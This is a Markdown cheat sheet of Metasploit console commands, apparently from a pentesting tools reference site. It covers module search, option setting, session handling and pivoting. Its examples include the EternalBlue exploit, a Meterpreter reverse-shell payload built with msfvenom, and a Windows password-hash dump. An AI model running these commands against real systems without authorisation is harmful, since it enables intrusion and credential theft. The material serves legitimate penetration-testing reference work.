 ```yaml
---
title: Metasploit
slug: metasploit
description: Comprehensive penetration testing framework and exploit development platform.
categories: ["Exploitation", "Penetration Testing"]
bgColor: "bg-red-100"
textColor: "text-red-900"
top: true
---
```


  title: "Metasploit",
  category: "Exploitation",
  slug: "metasploit",
};

## Metasploit Command Cheat Sheet {.cols-1}

### 🧰 Initialization & Help
| Function                   | Command                            | Example                            |
|----------------------------|-------------------------------------|------------------------------------|
| Start Metasploit Console   | `msfconsole`                        | `msfconsole`                        |
| Help and Usage Information | `metasploit -h` / `--help`         | `metasploit -h`                     |
| Exit Metasploit Console    | `exit`                              | `exit`                              |

## {.cols-2}

### 🔍 Searching & Selecting Modules
| Function                     | Command                           | Example                                                      |
|------------------------------|------------------------------------|--------------------------------------------------------------|
| Search Exploits              | `search <keyword>`                 | `search type:exploit name:smb`                               |
| Use a Specific Module        | `use <module_path>`                | `use exploit/windows/smb/ms17_010_eternalblue`               |
| Show Module Options          | `show options`                     | `show options`                                               |
| Show Payloads                | `show payloads`                    | `show payloads`                                              |
| Show Auxiliary Modules       | `show auxiliary`                   | `show auxiliary`                                             |
| Show Encoders                | `show encoders`                    | `show encoders`                                              |
| Show NOP Generators          | `show nops`                        | `show nops`                                                  |
| Show Post Modules            | `show post`                        | `show post`                                                  |

### ⚙️ Configuring Options
| Function                     | Command                           | Example                                                      |
|------------------------------|------------------------------------|--------------------------------------------------------------|
| Set Target Host              | `set RHOSTS <target_ip>`           | `set RHOSTS 192.168.1.1`                                     |
| Set Target Port              | `set RPORT <port>`                 | `set RPORT 445`                                              |
| Set Payload                  | `set PAYLOAD <payload>`            | `set PAYLOAD windows/meterpreter/reverse_tcp`               |
| Set Local Host               | `set LHOST <local_ip>`             | `set LHOST 192.168.1.100`                                    |
| Set Local Port               | `set LPORT <local_port>`           | `set LPORT 4444`                                             |
| Set Global Option            | `setg <option> <value>`            | `setg LHOST 192.168.1.100`                                   |
| Unset Global Option          | `unsetg <option>`                  | `unsetg LHOST`                                               |
| Check Target Vulnerability   | `check`                            | `check`                                                      |

### 🚀 Exploitation & Payloads
| Function                     | Command                            | Example                                                      |
|------------------------------|-------------------------------------|--------------------------------------------------------------|
| Run Exploit                  | `run` / `exploit`                   | `exploit`                                                    |
| Generate Payload             | `msfvenom -p <payload> -f <format> <options>` | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > shell.exe` |

### 🖥️ Sessions Management
| Function                     | Command                            | Example                            |
|------------------------------|-------------------------------------|------------------------------------|
| View Active Sessions         | `sessions -l`                       | `sessions -l`                       |
| Interact with a Session      | `sessions -i <id>`                  | `sessions -i 1`                     |
| Background a Session         | `background`                        | `background`                        |
| Kill a Session               | `sessions -k <id>`                  | `sessions -k 1`                     |
| Save Active Sessions         | `sessions -s`                       | `sessions -s`                       |
| Load Saved Sessions          | `sessions -r <session_file>`        | `sessions -r my_sessions.txt`       |

## {.cols-1}

### 🔄 Post-Exploitation & Pivoting
| Function                     | Command                            | Example                            |
|------------------------------|-------------------------------------|------------------------------------|
| Run Post-Exploitation Script | `run <module_path>`                 | `run post/windows/gather/hashdump` |
| Add a Route Through Session  | `route add <subnet> <session_id>`  | `route add 192.168.2.0/24 1`       |
| Display Routes               | `route`                             | `route`                             |
| Pivot via a Session          | `setg SESSION <session_id>`         | `setg SESSION 1`                   |
